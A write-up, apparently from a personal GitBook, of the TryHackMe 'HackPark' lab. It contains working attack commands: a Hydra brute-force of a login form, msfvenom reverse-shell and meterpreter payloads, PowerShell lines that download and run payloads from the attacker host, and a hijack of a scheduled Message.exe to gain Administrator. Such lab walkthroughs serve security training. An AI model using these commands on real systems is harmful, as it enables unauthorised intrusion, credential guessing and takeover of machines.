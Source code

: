 # HackPark

**Room Link:** [https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)



### Using Hydra to brute-force a login

**What request type is the Windows website login form using?**

<figure><img src="../../.gitbook/assets/image (11) (3) (1).png" alt=""><figcaption></figcaption></figure>

**Crafting request for Hydra**

Sent a failed login request to Burp to see what it would look like. With this info I was able to craft my request for hydra. I just needed to get the URL and everything that is sent after VIEWSTATE and just change the input to use ^USER^ and ^PASS^ to brute force these fields.

<figure><img src="../../.gitbook/assets/image (20) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I could also do this without burp by just opening the console and getting the info from there

<figure><img src="../../.gitbook/assets/image (7) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.110.93 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=vvTqZ%2FG4tEKhQoxeTpJ%2FyGxM9ZY9ZIvd6YMUS%2BoY3uaQCjC%2BJRdlkd8rbIQsDHztL%2BjsAvOLJhxU7vTNo3GP%2FLEmsndGPNAlCDn%2FB%2FrK2ynp9QkhRe9iqKBUmM5FQT2kX%2Bg%2BfPDNnTuzqW5IlmTujw4sLEzbvvec9FDW4cbQevgTj1tHnKx0vMmkVah5imro0o%2BHvQ5%2FGvpafEs1NdnW6wrSsUFuXnYzletKCdLG%2FgSb7bCDOK4ukZK%2F1cMOgYtjOCU4gk4M7PhQcYZmGpAN7pPVCMpX2YwGnTSgBPPmCB6avoLqG5jRS%2F3PYMjsqEGcD9P9S555GMQPxtfyvOEaJw%2B%2BZELKU2yVYr4uWxamEITsWNAT&__EVENTVALIDATION=Tp%2B5DS80H3PFB8ipJ24uKyHkPhSkqKD7GFJlc2U6IaO61l68aholdIjrZJ%2FsotSi0QxRBQjayWovmb2SU%2Fk6lY%2BOpju62jOGDkAvqcdNsqGrgf3vrAYw88XT2ONABFvDTR771I2YAr7JylJ0HbBZV83nGvvXWSC6rmKDGn80%2FuszTjDZ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (3) (3) (2) (1).png" alt=""><figcaption><p>Credentials found</p></figcaption></figure>

### Compromise the machine

**Now you have logged into the website, are you able to identify the version of the BlogEngine?**

<figure><img src="../../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CVE?**

CVE-2019-6714

**Exploit Link:** [https://www.exploit-db.com/exploits/46353](https://www.exploit-db.com/exploits/46353)

**Using the public exploit, gain initial access to the server. Who is the webserver running as?**

Created the file mentioned in the exploit, just changed the IP to my IP.

<figure><img src="../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

Setup a nc listener&#x20;

```
rlwrap nc -lvnp 4445
```

Upload the file

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (2) (1).png" alt=""><figcaption></figcaption></figure>

Navigate to the link and the nc listener should have caught it

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20) (2) (1).png" alt=""><figcaption></figcaption></figure>

### **Windows Privilege Escalation**

**Setting up meterpreter shell**

**Kali #1**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.218.233 LPORT=1337 -e x86/shikata_ga_nai -f exe -o reverse.exe
python2 -m SimpleHTTPServer 81
```

**Kali #2**&#x20;

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.218.233  
set LPORT 1337 
run
```

**Victim**&#x20;

```
cd C:\Windows\Temp powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/reverse.exe','reverse.exe')" reverse.exe
```

**What is the OS version of this windows machine?**

<figure><img src="../../.gitbook/assets/image (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

**Further enumerate the machine. What is the name of the abnormal **_**service**_** running?**



**Check Windows Exploit Suggester**

**Kali**

```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git 
cd Windows-Exploit-Suggester/ 
python3.9 windows-exploit-suggester.py --update 
python3.9 windows-exploit-suggester2.py --database 2022-12-03-mssb.xls --systeminfo systeminfo.txt
```

**Transfer WinPeas**

**Kali**&#x20;

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20221127/winPEASx64.exe 
python2 -m SimpleHTTPServer 81
```

**Victim**&#x20;

```
cd C:\Windows\Temp
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/winPEASx64.exe','winPEASx64.exe')" 
winPEASx64.exe
```

![](<../../.gitbook/assets/image (25) (1) (1) (1) (1).png>)

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
cd C:\Program Files (x86)\SystemScheduler\Events
type 20198415519.INI_LOG.txt
```

We can see Message.exe is kept being ran by Administrator so we just need to replace the file with our reverse shell, setup a listener and wait for the Administrator to try to run it.

<figure><img src="../../.gitbook/assets/image (9) (3) (1).png" alt=""><figcaption><p>Message.exe is called by Administrator </p></figcaption></figure>



**Kali**&#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.218.233 LPORT=1337 -f exe -o Message.exe 
python2 -m SimpleHTTPServer 81 rlwrap nc -lvnp 1337
```

**Victim**&#x20;

```
cd C:\Program Files (x86)\SystemScheduler 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/Message.exe','Message.exe')"
```

<figure><img src="../../.gitbook/assets/image (16) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

